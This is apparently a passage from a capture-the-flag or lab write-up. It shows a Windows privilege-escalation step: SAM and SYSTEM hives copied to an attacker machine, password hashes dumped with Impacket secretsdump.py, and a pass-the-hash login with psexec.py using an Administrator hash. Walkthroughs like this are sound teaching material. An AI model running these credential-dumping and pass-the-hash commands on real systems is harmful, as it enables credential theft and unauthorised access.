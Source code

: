 	* Copy file SAM and SYSTEM hashes from target machine to our attacker machine
	
		![task6-copy-hive](./images/task6-copy-hive.png)

	* Use Impacket `secretsdump.py` to retrieve the users' password hashes
	
		```
		python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
		```

		![task6-hases](./images/task6-hases.png)

	* Use the Administrator's hash to perform a Pass-the-Hash attack and gain access via Impacket `psexec.py`
	
		```
		python3 /usr/share/doc/python3-impacket/examples/psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:8f81ee5558e2d1205a84d07b0e3b34f5 administrator@$IP
		```
